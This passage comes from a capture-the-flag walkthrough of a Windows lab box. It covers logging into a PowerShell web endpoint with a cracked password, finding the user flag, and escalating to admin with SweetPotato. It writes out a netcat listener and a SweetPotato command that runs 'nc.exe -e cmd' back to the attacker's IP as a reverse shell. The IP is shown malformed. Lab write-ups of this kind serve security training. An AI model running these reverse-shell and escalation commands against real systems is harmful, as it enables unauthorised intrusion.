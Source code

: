 #### After a few minutes, depending on your GPU, you should see that you cracked the hash, and now have Edward's password.
![image](https://user-images.githubusercontent.com/80599694/147989352-14355dc1-d905-46e6-8a80-d9c9625c36b2.png)

#### Great, we have credentials.  But to what? If you look at the initial nmap scan, we do not have an SSH open, or anything these credentials can be used for. But if you remember our GoBuster enumeration finding the URL https://fire.windcorp.thm/powershell - Let's try our credentials there.
![image](https://user-images.githubusercontent.com/80599694/147991544-8d3fcccb-9b02-4043-93ff-d50bacf12a98.png)
#### Well look at that, we've got access!
![image](https://user-images.githubusercontent.com/80599694/147991646-1856ecd6-e091-45ac-95ef-30c751673a02.png)
#### Now that we have a foothold, let's look for that second flag.
![image](https://user-images.githubusercontent.com/80599694/147991691-796ba33d-f34d-49b0-868c-10214f8d407a.png)
#### Great!  We found the user flag, (flag 2), but how do I become admin?  I'm always looking for easy wins on CTF boxes, the first thing I am going to do is check my privileges:
`````bash
whoami /priv
`````
![image](https://user-images.githubusercontent.com/80599694/147991804-4aed2d4d-437a-4b62-b387-c590618c9bd4.png)
#### Looks like we can escalate privlieges with Sweet Potato.  Well, thats what it reminds me of atleast.

## Let's get Admin Priv's!
#### After I checked my priv's I went poking around the directories, and made my way to the Downloads folder.
![image](https://user-images.githubusercontent.com/80599694/147991980-6f1571d2-32d3-4744-aaea-26f81f877b6a.png)
#### Awesome! In the directory, there is already nc.exe (reverse shell opportunity) and SweetPotato. What do you know? 😆
#### I am going to setup a netcat listener on my machine and get the machine to connect back after running SweetPotato.
````bash
rlwrap nc -lvnp 4445
````
#### Now Let's Run SweetPotato.exe
````bash
.\SweetPotato.exe -p nc.exe -a "-e cmd 10..13.12.249 4445"
````
![image](https://user-images.githubusercontent.com/80599694/147992256-28dec5c2-f0ca-4083-84ae-14f0fc25cf1a.png)


